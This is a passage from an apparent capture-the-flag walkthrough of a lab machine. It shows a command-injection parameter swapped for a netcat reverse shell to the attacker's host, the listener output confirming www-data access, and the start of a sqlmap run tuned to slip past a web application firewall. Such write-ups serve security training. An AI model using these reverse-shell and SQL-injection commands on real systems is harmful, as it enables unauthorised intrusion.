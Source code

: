 ![](/img/1561707173193.png)

Now I can get a shell changing `cmd=id` to
`cmd=nc -e /bin/sh 10.10.14.8 443`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.143.
    Ncat: Connection from 10.10.10.143:35900.
    ‍id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Path 2: WebShell Via SQLi

#### sqlmap

It seems that IronWAF isn't perfect against `sqlmap`. I got it to work
sometimes. But with a bit of tweaking, I could get it to work reliably.
The options I'll use are `--random-agent` to mess with the user agent
string, and low level and risk.



    root@kali# sqlmap -u http://10.10.10.143:80/room.php?cod=1 --random-agent --level 1 --risk 1  --batch
            ___
           __H__
     ___ ___["]_____ ___ ___  {1.3.4#stable}
    |_ -| . [)]     | .'| . |
    |___|_  [.]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
